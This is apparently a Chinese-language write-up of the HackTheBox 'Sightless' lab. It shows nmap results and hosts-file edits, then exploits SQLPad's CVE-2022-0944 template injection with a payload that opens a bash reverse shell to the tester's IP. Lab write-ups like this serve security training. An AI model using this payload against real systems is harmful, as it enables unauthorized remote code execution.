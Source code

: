 # Sightless

> 本机 IP:10.10.16.13
> 目标 IP:10.10.11.32

```shell
$ nmap -sSVC 10.10.11.32
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings:
|   GenericLines:
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Sightless.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)

$ vi /etc/host
[+] 10.10.11.32 sightless.htb
```

访问 sightless.htb，其中有一个跳转到 http://sqlpad.sightless.htb/

```shell
$ vi /etc/host
[+] 10.10.11.32 sqlpad.sightless.htb
```

访问 http://sqlpad.sightless.htb/ 是一个 SQLPad 组件，搜索存在漏洞 CVE-2022-0944，6.10.1 之前版本存在注入漏洞，可远程执行代码

<!-- [wp](https://blog.csdn.net/m0_52742680/article/details/142123113)，burp抓包可看具体版本为6.10.0 -->

连接 -> Driver:MySQL -> Database 输入 payload:

```sql
{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.16.13/299 0>&1"') }}
```
